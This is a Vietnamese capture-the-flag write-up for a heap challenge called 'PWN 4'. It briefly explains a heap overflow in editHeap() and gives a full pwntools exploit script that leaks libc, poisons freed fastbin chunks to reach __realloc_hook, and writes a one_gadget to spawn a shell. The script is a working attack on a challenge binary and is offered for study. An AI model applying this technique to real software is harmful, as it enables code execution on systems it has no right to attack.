



# PWN 4



Bài này chương trình thực hiện các lệnh tương tác với heap. Xem qua các hàm, ta không khó để nhận ra bug:



- Tại hàm `editHeap()` chương trình cho chúng ta nhập size tùy thích và đọc vào từng ấy byte => `Heap overflow`



Như vậy bằng việc `hof` qua `freed chunk`, ta có thể leak được `libc`, đồng thời có thể overwrite các `freed chunk` khác để trỏ đến `__realloc_hook`. Khi đó ta có thể overwrite `one_gadget` và get shell

## Solve script
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn4_ul_patched")
libc = ELF("./libc.2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* main +33
        c
        c
        ''')
        sleep(1)

def create_heap(idx,size,data):
    sla(">",b'1')
    slna("Index:",idx)
    slna("Input size:",size)
    sla("Input data:",data)

def show_heap(idx):
    sla(">",b'2')
    slna("Index:",idx)

def edit_heap(idx,data,size):
    sla(">",b'3')
    slna("Input index:",idx)
    slna("Input newsize:",size)
    sla("(y/n)?",b'y')
    sl(data)
def remove_heap(idx):
    sla(">",b'4')
    slna("Input index:",idx)

if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])


create_heap(0,0x60,b'hello')
create_heap(1,0x60,b'hello')
create_heap(2,0x60,b'hello')
create_heap(3,0x60,b'hello')

create_heap(4,0x510,b'hello')
create_heap(5,0x60,b'hello')


GDB()

### LEAK_LIBC
remove_heap(4)

payload = b'`'*0x70
info(hex(len(payload)))
edit_heap(3,payload,len(payload))

show_heap(3)
p.recvuntil(payload)
leak_libc = u64(p.recv(6) + b'\0\0')
libc.address = leak_libc - 0x39bb78
info(hex(leak_libc))
info(hex(libc.address))

## OVERWRITE FREED CHUNKS
remove_heap(1)
remove_heap(2)

payload = payload = b'\0'*0x68
payload += p64(0x71)
payload += b'\0'*0x68
payload += p64(0x71)
payload += p64(libc.sym['__realloc_hook'] -0x1b)
payload += b'\0'*0x60
payload += p64(0x71)
payload += b'\0'*0x68
payload += p64(0x521)

edit_heap(0,payload,len(payload))


payload = libc.sym['__realloc_hook'] -0x1b
info(hex(libc.sym['__realloc_hook']))
info(hex(payload))
info("one_gadget: "+hex((libc.address + 0xd5bf7)))

payload = b'a'*0xb
payload += p64(libc.address + 0xd5bf7)
payload += p64(libc.sym['realloc']+8) 
create_heap(6,0x60,b'hello')
create_heap(7,0x60,b'hello')

edit_heap(7,payload,len(payload))

sla(">",b'1')
slna("Index:",8)
slna("Input size:",30)


p.interactive()


```